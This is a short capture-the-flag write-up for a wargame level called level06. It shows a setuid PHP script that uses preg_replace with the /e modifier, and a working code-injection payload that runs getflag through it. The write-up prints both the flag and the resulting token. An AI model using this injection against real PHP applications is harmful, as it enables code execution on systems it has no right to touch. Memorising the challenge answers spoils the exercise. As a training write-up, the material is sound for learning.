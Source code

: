 ## FLAG: `viuaaale9huek52boumoomioc`

> ls -l
```
    total 12
    -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
    -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

> cat level06.php
```
    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
    function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
    $r = x($argv[1], $argv[2]); print $r;
    ?>
```
## This script takes up to 2 arguments but only use the first one
## which must be a file `$a = file_get_contents($y);`
## It takes its content and put it through multiple regex
## `preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)` can execute some code thanks to `/e`

> echo '[x ${`getflag`}]' > /tmp/06_file && ./level06 /tmp/06_file
```
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    in /home/user/level06/level06.php(4) : regexp code on line 1
```